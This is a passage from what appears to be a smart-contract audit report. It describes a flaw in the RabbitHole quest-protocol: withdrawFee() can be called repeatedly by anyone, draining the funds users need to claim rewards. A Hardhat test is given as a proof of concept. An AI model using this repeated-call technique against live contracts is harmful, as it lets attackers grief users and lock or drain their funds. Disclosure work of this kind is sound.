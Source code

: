 Also the function does not track, if it the fees were already collected and so it can be called multiple times and drain the funds in the Quest contract leading resulting in a contract state where users can't claim their rewards as the contract doesn't hold the needed amount anymore.

As the function can be called by everyone any attacker can grief the protocol and bring every contract in a bad state for all the users that didn't claimed their rewards as soon as the endTime is reached.

#### Proof of Concept
https://github.com/rabbitholegg/quest-protocol/blob/8c4c1f71221570b14a0479c216583342bd652d8d/contracts/Erc20Quest.sol#L102
https://github.com/rabbitholegg/quest-protocol/blob/8c4c1f71221570b14a0479c216583342bd652d8d/contracts/Quest.sol#L76

The test shows, that an users is not able to claim their rewards, after the withdrawFee() function was called multiple times.

File: test/Erc20Quest.spec.ts add second time call `await deployedQuestContract.withdrawFee()` and the test will fail as it collected to much fees.
```solidity
describe('withdrawFee()', async () => {
    it('should transfer protocol fees back to owner', async () => {
      const beginningContractBalance = await deployedSampleErc20Contract.balanceOf(deployedQuestContract.address)

      await deployedFactoryContract.connect(firstAddress).mintReceipt(questId, messageHash, signature)
      await deployedQuestContract.start()
      await ethers.provider.send('evm_increaseTime', [86400])
      expect(await deployedSampleErc20Contract.balanceOf(protocolFeeAddress)).to.equal(0)

      await deployedQuestContract.connect(firstAddress).claim()
      expect(await deployedSampleErc20Contract.balanceOf(firstAddress.address)).to.equal(1 * 1000)
      expect(beginningContractBalance).to.equal(totalRewardsPlusFee * 100)

      await ethers.provider.send('evm_increaseTime', [100001])
      await deployedQuestContract.withdrawFee()

      await deployedQuestContract.withdrawFee() // @audit this should not transfer a second time and change the expected behaviour

      expect(await deployedSampleErc20Contract.balanceOf(deployedQuestContract.address)).to.equal(
        totalRewardsPlusFee * 100 - 1 * 1000 - 200
      )
      expect(await deployedQuestContract.receiptRedeemers()).to.equal(1)
      expect(await deployedQuestContract.protocolFee()).to.equal(200) // 1 * 1000 * (2000 / 10000) = 200
      expect(await deployedSampleErc20Contract.balanceOf(protocolFeeAddress)).to.equal(200)

      await ethers.provider.send('evm_increaseTime', [-100001])
      await ethers.provider.send('evm_increaseTime', [-86400])
    })
})
```
